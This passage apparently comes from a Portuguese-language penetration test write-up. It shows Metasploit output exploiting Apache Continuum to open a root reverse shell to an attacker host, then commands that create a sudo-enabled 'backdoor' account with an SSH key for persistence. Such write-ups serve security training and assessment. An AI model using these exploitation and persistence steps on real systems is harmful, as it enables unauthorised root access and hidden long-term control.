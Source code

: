 ```console
msf6 exploit(linux/http/apache_continuum_cmd_exec) > exploit
[*] Started reverse TCP handler on 192.168.0.156:4444 
[*] Injecting CmdStager payload...
[*] Sending stage (3045380 bytes) to 192.168.0.207
[*] Meterpreter session 1 opened (192.168.0.156:4444 -> 192.168.0.207:37150) at 2025-03-06 16:28:56 -0500
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > getuid
Server username: root
meterpreter > shell
Process 2576 created.
Channel 1 created.

whoami
root

id
uid=0(root) gid=0(root) groups=0(root)
```
Essa exploração permitiu obter controle administrativo total sobre o sistema, abrindo amplas possibilidades para a enumeração de informações sensíveis e execução de comandos com privilégios elevados.


## 4. Pós-Exploração

### Persistência com Usuário Administrativo via SSH

Para garantir a persistência do acesso ao sistema comprometido, foi criada uma nova conta administrativa denominada `backdoor`. Essa conta foi configurada com privilégios de sudo, permitindo acesso total ao sistema, mesmo que as vulnerabilidades originais sejam corrigidas. Em seguida, foi configurado o acesso SSH sem senha por meio da implantação de uma chave pública.

**Criação da Conta Administrativa:**

```console
useradd -m -s /bin/bash backdoor
echo "backdoor:password" | chpasswd
usermod -aG sudo backdoor

grep backdoor /etc/passwd
backdoor:x:1126:1126::/home/backdoor:/bin/bash
```
**Configuração do Acesso SSH:**

```console
mkdir -p /home/backdoor/.ssh
chmod 700 /home/backdoor/.ssh
echo "XXXX" > /home/backdoor/.ssh/authorized_keys
chmod 600 /home/backdoor/.ssh/authorized_keys
chown -R backdoor:backdoor /home/backdoor/.ssh
```
